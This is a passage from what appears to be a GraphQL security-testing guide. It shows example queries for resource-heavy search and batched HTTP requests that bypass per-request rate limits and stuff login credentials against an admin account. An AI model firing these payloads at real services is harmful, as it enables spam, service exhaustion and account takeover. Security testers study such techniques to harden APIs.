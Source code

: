 5. **Resource-intensive operations**:
   - Identify and target expensive operations like:
     - Search functionality
     - Filtering large datasets
     - Geospatial queries
     - Data aggregation
   
   Example:
   ```graphql
   query {
     # Full-text search with minimal query to return maximum results
     search(query: "a") {
       id
       title
       content
     }
   }
   ```

### 7. Batching Attacks

Batch operations can be exploited for various attacks:

1. **Rate limit bypass**:
   - Identify rate-limited operations
   - Bundle them in a single batched request
   - Check if the rate limit applies per-request or per-operation
   
   Example:
   ```
   POST /graphql HTTP/1.1
   Host: target.com
   Content-Type: application/json
   
   [
     {"query": "mutation { sendMessage(to: \"user1\", content: \"test\") { id } }"},
     {"query": "mutation { sendMessage(to: \"user2\", content: \"test\") { id } }"},
     {"query": "mutation { sendMessage(to: \"user3\", content: \"test\") { id } }"},
     ... # Keep adding until you exceed what would normally be rate-limited
   ]
   ```

2. **Credential stuffing**:
   - Bundle multiple login attempts in one request
   - Watch for response variations that indicate valid credentials
   
   Example:
   ```
   POST /graphql HTTP/1.1
   Host: target.com
   Content-Type: application/json
   
   [
     {"query": "mutation { login(username: \"admin\", password: \"password1\") { token } }"},
     {"query": "mutation { login(username: \"admin\", password: \"password2\") { token } }"},
     ... # Test multiple passwords in one request
   ]
   ```
